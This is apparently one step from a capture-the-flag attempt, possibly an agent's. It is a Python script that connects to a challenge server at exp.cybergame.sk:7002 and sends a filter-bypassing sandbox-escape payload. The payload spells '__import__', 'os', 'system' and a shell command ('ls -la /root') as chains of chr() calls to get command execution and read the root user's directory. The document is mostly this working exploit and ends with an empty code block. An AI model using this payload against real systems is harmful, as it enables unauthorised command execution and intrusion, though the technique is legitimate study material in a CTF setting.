 Identifying root user files and potential methods to access them.
```bash
#!/usr/bin/env python3
import socket
import sys

HOST = "exp.cybergame.sk"
PORT = 7002

def build_payload(command):
    """Builds the payload using chr() to bypass filters."""
    import_key = "+".join([f"chr({ord(c)})" for c in "__import__"])
    os_module = "+".join([f"chr({ord(c)})" for c in "os"])
    system_func = "+".join([f"chr({ord(c)})" for c in "system"])
    cmd_str = "+".join([f"chr({ord(c)})" for c in command])
    payload = f"getattr(__builtins__.__dict__[{import_key}]({os_module}), {system_func})({cmd_str})"
    return payload

def main():
    command = "ls -la /root" # Try to list contents of root directory

    payload = build_payload(command)

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(10)
            print(f"[*] Connecting to {HOST}:{PORT}")
            s.connect((HOST, PORT))
            print("[*] Connected.")

            print("[*] Sending payload...")
            s.sendall(payload.encode() + b'\n')
            print("[*] Payload sent.")

            print("[*] Receiving response...")
            response = b""
            try:
                while True:
                    chunk = s.recv(4096)
                    if not chunk:
                        break
                    response += chunk
            except socket.timeout:
                print("[*] Socket timeout reached.")
            except Exception as e:
                print(f"[-] Error while receiving: {e}")

            print("[*] Response received:")
            decoded_response = response.decode(errors='ignore')
            print(decoded_response)

    except socket.timeout:
        print(f"[-] Connection timed out to {HOST}:{PORT}")
    except socket.error as e:
        print(f"[-] Socket error: {e}")
    except Exception as e:
        print(f"[-] An error occurred: {e}")

if __name__ == "__main__":
    main()
```
Attempting to identify root user files by listing the contents of /root directory.
```bash
```